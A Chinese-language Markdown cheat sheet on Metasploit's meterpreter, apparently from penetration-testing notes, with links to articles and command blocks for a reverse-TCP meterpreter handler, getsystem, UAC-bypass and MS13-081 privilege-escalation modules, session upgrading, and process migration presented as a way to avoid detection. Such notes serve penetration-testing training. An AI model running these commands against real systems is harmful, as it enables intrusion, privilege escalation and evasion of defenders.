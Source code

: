 ### meterpreter

**文章**
- [linux - Metasploit: Module database cache not built yet, using slow search - Server Fault](https://serverfault.com/questions/761672/metasploit-module-database-cache-not-built-yet-using-slow-search)
- [Metasploit入门用法(主动攻击) - CSDN博客](https://blog.csdn.net/wsh19930305/article/details/72855660)
- [meterpreter必知必会的15个命令](https://www.4hou.com/tools/14185.html)
- [萌新科普 手把手教你如何用MSF进行后渗透测试](https://www.anquanke.com/post/id/164525)

**快速上手**
```bash
shell   # 获取目标主机的 cmd shell
getsystem # 命令可以提权到本地系统权限
sysinfo # 显示系统名,操作系统,架构和语言等。
```

- 获取会话

    **handler**
    ```bash
    use exploit/multi/handler
    set payload windows/x64/meterpreter_reverse_tcp
    set LHOST
    set LPORT
    exploit -j  # 后台执行
    ```

    **cmdshell 升级为 meterpreter**

    如果最开始获取的是 cmdshell,后来发现这台机器非常适合作为测试其它终端的跳板,这个时候 cmdshell 的功能已经不能满足需要,升级成 meterpreter 就十分有必要。`sessions -u "id"` 将该 cmdshell 升级成 meterpreter

- 提权

    **绕过 UAC**

    通常 webshell 的权限都比较低,能够执行的操作有限,没法查看重要文件、修改系统信息、抓取管理员密码和 hash、安装特殊程序等,所以我们需要获取系统更高的权限

    ```bash
    use exploit/windows/local/bypassuac # 一系列都可用
    use exploit/windows/local/bypassuac_eventvwr
    sessions    # 查看目前的session
    sessions -k # 杀死所有session
    set session    # 设为你需要exploit的session
    ```

    **利用系统漏洞提权**

    ```bash
    use exploit/windows/local/ms13_081_track_popup_menu # 以ms13-081为例
    set session
    ```

- 进程迁移

    当meterpreter单独作为一个进程运行时容易被发现,如果将它和系统经常运行的进程进行绑定,就能够实现持久化。
    ```bash
    getpid  # 查看当前会话的进程id
    ps  # 查看目标运行的进程
    migrate pid # 绑定进程
    ```
